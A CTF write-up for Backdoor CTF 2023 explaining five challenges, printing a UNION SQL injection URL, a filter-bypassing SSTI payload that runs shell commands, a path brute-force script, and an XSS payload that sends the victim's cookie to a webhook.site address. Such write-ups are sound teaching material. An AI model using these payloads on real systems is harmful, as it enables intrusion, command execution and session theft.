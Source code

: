 ```yaml
---
title: "Backdoor CTF 2023"
description: "Writeup for challenges in Backdoor CTF 2023"
summary: "Writeup for challenges in Backdoor CTF 2023"
categories: ["Writeup"]
tags: ["Web Exploitation","Misc", "CTF"]
#externalUrl: ""
date: 2023-12-18
draft: false
---
```


<!-- .slide: style="font-size: 12px;" -->


<h1>Backdoor CTF 2023 - Writeup Challenges</h1>


## web/too-many-admins
![image](https://hackmd.io/_uploads/Bylp_-C8T.png)

This chall gives me a source. When read `index.php` i saw this line:
```php
if($userParam){
    if($userParam !=  "all"){
    $query = "SELECT username, password, bio FROM users where username = '$userParam' ";
    }else{
    $query = "SELECT username, password, bio FROM users ";

    }
    $result = $conn->query($query);
```

So it is simple SQL Injection and the flag is hide in the random admin's bio.

```sql
CREATE PROCEDURE GenerateRandomUsers()
BEGIN
    DECLARE i INT DEFAULT 0;
    WHILE i < 500 DO
        IF i = {SOME_NUMBER} THEN
            INSERT INTO users (username, password, bio)
            VALUES (
                CONCAT('admin', i),
                'REDACTED',
                'Flag{REDACTED}'
            );
        ELSE
            INSERT INTO users (username, password, bio)
            VALUES (
                CONCAT('admin', i),
                MD5(CONCAT('admin',i,RAND())),
                CONCAT('Bio for admin', i)
            );
        END IF;
        SET i = i + 1;
    END WHILE;
END //
DELIMITER ;
```

Final payload:
`http://34.132.132.69:8000/?user=admin0' UNION SELECT username, bio, password FROM users where INSTR(bio,'flag{')-- -`
![image](https://hackmd.io/_uploads/H13DTkAUT.png)
Flag: `flag{1m40_php_15_84d_47_d1ff323n71471n9_7yp35}`

## web/Unintelligible-Chatbot
![image](https://hackmd.io/_uploads/Hka6uZCLp.png)


This web gives me a chatbox with bot and then show the result to user. 
![image](https://hackmd.io/_uploads/Sy1p610IT.png)
When i saw that. i think about SSTI (Server-side template injection). So i try `{{7*7}}` first.
![image](https://hackmd.io/_uploads/BJkK01CIT.png)
Bingo. But this chall has filter some characters so i need to bypass filter to get the flag. You can refer how to bypass the filter from the documentation at [this link](https://hackmd.io/@Chivato/HyWsJ31dI). Idea to bypass that you change the blacklist word into hex and use attr to bypass dot. 
Final payload:
`{{"foo"|attr('\137\137\143\154\141\163\163\137\137')|attr('\137\137\142\141\163\145\137\137')`
`|attr('\137\137\163\165\142\143\154\141\163\163\145\163\137\137')()|attr('\137\137\147\145\164\151\164\145\155\137\137')(352)|attr('\137\137\151\156\151\164\137\137')|attr('\137\137\147\154\157\142\141\154\163\137\137')`
`|attr('\137\137\147\145\164\151\164\145\155\137\137')("os")|attr('popen')('cat flag')|attr('read')()}}`
![image](https://hackmd.io/_uploads/Hk2x8xCIa.png)
Flag: `flag{n07_4n07h3r_5571_ch4ll3n63}`

## web/space-war

![image](https://hackmd.io/_uploads/r1VSUl0I6.png)

The challenge gives me a description with these letters are written in uppercase so i think the username is in the path of server. And we need to brute a little bit. Simple script to get the username:

```python
import requests
import string

username = ""
while True:
    for char in (string.ascii_letters + string.digits):
        url = f"http://34.132.132.69:8005/{username+char}"
        res = requests.get(url=url)
        if "You are on a wrong path, This doesn't exist" not in res.text:
            username+=char
            print("[+] Founded a char: " + username)
```

![image](https://hackmd.io/_uploads/HJbTxZCL6.png)
Then add a simple SQL injection to bypass. `" or 1=1; -- -` to get the flag. 
![image](https://hackmd.io/_uploads/B1ki_-R8T.png)

Flag: `flag{1_kn0w_y0u_will_c0me_b4ck_S0M3DAY_0dsf513sg445s}`

## misc/halo-jack

![image](https://hackmd.io/_uploads/SJS1w-1vT.png)

This challenge takes me a lot of time ~~(Guessy maybe)~~. And then i think about brute force all the commands that can use in my shell. And then i saw that `lssr` and `pr` can be used [here](https://pypi.org/project/lssr/0.3.0/) and [here](https://www.ibm.com/docs/ro/aix/7.2?topic=p-pr-command). After research i saw that `lssr` and `pr` is alternative ls command and cat command.
![image](https://hackmd.io/_uploads/BJPuPQJDa.png)

> Flag is in lovebirds.txt. 

![image](https://hackmd.io/_uploads/By1jw7Jwa.png)
Flag: `flag{th3_4uth0rs_4r3_1n_l0v3_w1th34ch_0th3r}`

## web/armoured-notes


I think about XSS injection when this web gives me a bot to visit the url i give. So the idea is giving the url have xss to take the bot cookie (which is the flag). The first thing we need to bypass isAdmin. 

Source code route report and posts:
```js
app.post("/report", async (req, res, next) => {
    const { url } = req.body;
    if (!url) {
      return res.status(400).send({ msg: "Url is missing." });
    }
    if (!RegExp(urlRegex).test(url)) {
      return res
        .status(422)
        .send({ msg: "URL din't match this regex format " + bot.urlRegex });
    }
    if (await bot(url)) {
      return res.send({ msg: "Admin successfully visited the URL." });
    } else {
      return res.status(500).send({ msg: "Admin failed to visit the URL." });
    }
  });

  app.get("/posts/:id", async (req, res, next) => {
    try {
      const post = await diaryCollection.findOne({
        _id: new ObjectId(req.params.id),
      });
      if (!post) {
        return res.status(404).json({ code: "err" });
      }
      const url = req.originalUrl;

      let template;
      template = fs.readFileSync(resolve("views/post.html"), "utf-8");
      template = await vite.transformIndexHtml(url, template);
      const render = (await vite.ssrLoadModule("/utils/router.js")).render;

      const appHtml = await render(url, __dirname, req);

      const html = template.replace(`<!--app-html-->`, appHtml);

      res.status(200).set({ "Content-Type": "text/html" }).end(html);
    } catch (e) {
      res.status(500).end(e.stack);
    }
  });
```

After read a source a little bit a see this:

```js
app.post("/create", async (req, res, next) => {
    let obj = duplicate(req.body);

    if (obj.uname === "admin" && obj.pass == process.env.PASSWORD) {
      obj.isAdmin = true;
    }
    if (obj.isAdmin) {
      const newEntry = req.body;

      try {
        const result = await diaryCollection.insertOne(newEntry);
        return res.json({ code: result.insertedId });
      } catch (err) {
        console.error("Failed to insert entry", err);
        return res.status(500).json({ code: "err" });
      }
    }
    return res.json({ code: "err" });
  });
  app.post("/save", async (req, res, next) => {
    let { id, message } = req.body;

    try {
      await diaryCollection.updateOne(
        { _id: new ObjectId(id) },
        { $set: { message: message } }
      );
      return res.json({ code: "success" });
    } catch (err) {
      console.error("Failed to update diary entry", err);
      return res.status(500).json({ code: "err" });
    }
  });
```

Let check how the duplicate function is defined.

```js
export function duplicate(body) {
    let obj={}
    let keys = Object.keys(body);
    keys.forEach((key) => {
      if(key !== "isAdmin")
      obj[key]=body[key];
    })
    return obj;
  }
```
It takes an object (body) as an argument and returns a new object (obj) with the same properties as the input object, excluding the property with the key "isAdmin". It uses the Object.keys method to iterate over the keys of the input object and creates a new object without including the "isAdmin" property. It looks like prototype pollution that we can inject isAdmin when post `/create`.

![image](https://hackmd.io/_uploads/Hkjn-bxDT.png)

So i create a id that can give to bot url to visit. But how to take the admin cookie? After searching about vitejs xss injection i see [this](https://github.com/vitejs/vite/security/advisories/GHSA-92r3-m2mg-pj97?cve=title). The last thing to do is build a payload send to my server to get the flag. 
Final payload: `http://34.132.132.69:8001/posts/658276ae99d634eec4c73710/?"></script><script>location='https://webhook.site/394f8039-82d9-432f-b9f0-b62b8cff5ce4/'+document.cookie</script>`

![image](https://hackmd.io/_uploads/SJ8XQ-lva.png)

Flag: `flag{pR0707yP3_p0150n1n9_AND_v173j5_5ay_n01c3_99}`
